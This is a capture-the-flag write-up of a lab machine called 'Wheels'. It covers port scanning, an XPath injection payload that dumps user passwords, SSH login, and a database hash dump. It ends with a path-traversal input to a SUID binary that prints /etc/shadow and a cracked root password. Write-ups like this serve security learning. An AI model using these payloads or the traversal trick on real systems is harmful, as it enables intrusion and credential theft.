# Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/wheels]                                                                                                         
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.183.202      
PORT      STATE    SERVICE                                       
22/tcp    open     ssh                                                     
80/tcp    open     http 
```

Access to port 80.


Can see a carservice web page.

The footer is a email address related to official website.


Try to use this email register a user.



It can be login. Then went to the employee portal.



Can find 3 users. Check the burpsuite, looks like a xml path.



Try to use xpath injection, use the `')]/password | a[contains(a,'` to injection.



Then get the users password.

So bob's password is `Iamrockinginmyroom1212`, `alice:iamarabbitholeand7875`, `john:johnloveseverontr8932`

try to login with ssh.



Bob is good.

# PE

## Information Collection

### Basic information



### Active Ports



### Users



### Useful software



### DB Password



Login to MySQL to get the Password.

```mysql
MariaDB [wheels]> select * from users;
+----+----------+--------------------------------------------------------------+-----------------------+---------+
| id | username | password                                                     | email                 | account |
+----+----------+--------------------------------------------------------------+-----------------------+---------+
|  1 | bob      | $2a$12$XyDbORzX3TFxsdX2OJZLo.01jNZMrpi1iU3XqpW4IeqLbbUUBAGAm | bob@wheels.service    | admin   |
|  2 | gurana   | $2y$10$Im2ZQH9neNAUuM1LeUcNO.Hu.9p1qP2lQw59OtZKB.tmPrpRXoKmi | gurana@wheels.service | admin   |
|  3 | info     | $2y$10$4RhCUzCCUEL44dHqQO9lZuKjDgtALV37zTXXJV7KEx2bP0A5dL2zy | info@wheels.service   | admin   
3 rows in set (0.000 sec)

```

### SUID



Found a unknow suid application.

Use it to open `/etc/shadow`

```bash
bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: ../../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::

```

Use `hashcat` to crack the password.



The root's password is `$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:highschoolmusical`

Finally get root.

